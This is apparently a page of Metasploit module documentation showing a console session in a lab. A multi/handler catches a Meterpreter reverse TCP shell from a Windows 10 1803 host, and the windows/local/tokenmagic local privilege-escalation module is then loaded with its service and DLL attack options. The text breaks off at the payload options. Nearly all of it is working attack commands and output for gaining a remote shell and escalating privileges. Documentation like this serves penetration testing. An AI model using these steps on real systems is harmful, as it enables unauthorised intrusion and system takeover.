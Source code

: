 ### Tested on Windows 10 x64 1803 (Build 17134) via service exploitation
```
msf6 > use multi/handler
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200262 bytes) to 172.16.199.135
[*] Meterpreter session 2 opened (172.16.199.1:4444 -> 172.16.199.135:49874) at 2021-05-14 12:18:40 -0400

meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > use windows/local/tokenmagic
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/tokenmagic) > options

Module options (exploit/windows/local/tokenmagic):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   METHOD            SERVICE          yes       SERVICE or DLL, please select which attack method you would like to use (SERVICE by default).
Note that the System Orchestrator service which loads the overwritten DLL when using the DLL method can take up to 10
minutes to trigger (Accepted: SERVICE, DLL)
   SERVICE_FILENAME  dbfkhe           no        Filename for Service Payload (Random by default).
   SERVICE_NAME      BNPzhEQL         no        Service Name to use (Random by default).
   SESSION                            yes       The session to run this module on.
   WRITABLE_DIR                       no        Directory to write file to (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

```